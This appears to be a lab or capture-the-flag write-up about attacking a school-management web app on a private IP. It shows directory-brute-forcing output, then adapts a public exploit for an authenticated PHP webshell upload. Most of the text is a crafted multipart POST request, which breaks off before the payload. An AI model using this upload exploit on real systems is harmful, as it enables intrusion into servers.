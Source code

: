 ![[Pasted image 20240210164026.png]]

No weak credentials. 

Feroxbuster finds an install file with some default credentials and the database.sql file with the table layout.

`200      GET       36l      221w     1446c http://192.168.151.13/management/installation/install_guide.txt`
`200      GET     1156l     5239w    47297c http://192.168.151.13/management/installation/sql/database.sql`

No luck with the default credentials unfortunately.

![[Pasted image 20240210195638.png]]

https://www.exploit-db.com/exploits/50587

This exploit says through /admin/manage_profile we can upload a php webshell. We can't access that page though.
It says the exploit would upload to /uploads/exam_question directory and we do have access to that.

Reading a little further, it shows the actual request goes to /admin/examQuestion/create

![[Pasted image 20240210203529.png]]

We do have access to this so let's try to manually do the exploit.
Download the exploit, replace the "localhost" and fix the line breaks.

```txt
POST /management/admin/examQuestion/create HTTP/1.1
Host: 192.168.151.13
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data;boundary=---------------------------183813756938980137172117669544
Content-Length: 1331
Origin: http://192.168.151.13
Connection: close
Referer: http://192.168.151.13/admin/examQuestion
Cookie: ci_session=793aq6og2h9mf5cl2q2b3p4ogpcslh2q
Upgrade-Insecure-Requests: 1

-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="name"

test4
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="class_id"

2
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="subject_id"

5
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="timestamp"

2021-12-08
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="teacher_id"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="file_type"
```